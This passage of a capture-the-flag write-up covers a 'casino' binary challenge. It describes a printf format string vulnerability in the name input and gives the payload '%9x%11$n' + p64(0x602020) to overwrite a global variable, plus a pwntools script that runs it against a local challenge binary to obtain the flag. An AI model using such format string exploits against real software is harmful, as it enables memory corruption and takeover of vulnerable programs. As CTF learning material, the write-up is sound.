 This code is basically incrementing `rbp-0x58` with the `bet` value that we saw earlier.

To sum it up:

* Initalize var58 = 0 (rbp-0x58)
* For each correct solve, increment var58 with the value of `bet`.
* This value will be 99 when we have entered 100 correct numbers.

So the condition will always fail (99 > 100).

This is where I got stuck and my time ran out. So I sent all the code that I had to my teammate @happysox who found a printf format string vulnerability in the name. 

### Overwriting the global variable bet
Basically what we want to do is overwrite the `bet` variable.

This means the condition that failed earlier `99 <= 100` will pass if we manage to increase the bet value.

But wait, wasn't full Full Relro enabled? Yes it is, but we can write to global variables, that is allowed.

#### What do we know?

* `bet` located at address `0x602020`
* Buffer limited to 16 characters
* printf stops at \00
* Name located at offset 10 on the stack.

#### What do we want to do?

* Overwrite `bet` with > 1


What is worth noting is that the address `0x602020` is actually `0x000000602020` but we can specify to target the lower bytes by writing to offset 11 instead.

Here we write the value 9 to the address `0x602020`:

```
%9x%11$n + p64(0x602020)
```

We also need to remember to update the `bet` variable in our seed.

```
int win = (upper >> 0x3) + 9;
```

#### Getting the flag

```python
from pwn import * 

s = process("./solve") 
p = process("./casino")

numbers = s.recvall().split("\n")
del numbers[-1]
del numbers[-1]
s.close()

p.sendlineafter("name?", "%9x%11$n" + p64(0x602020))

for i in numbers:
    print p.recvuntil("number:")
    p.sendline(i)
print p.recvall()

p.close()
```

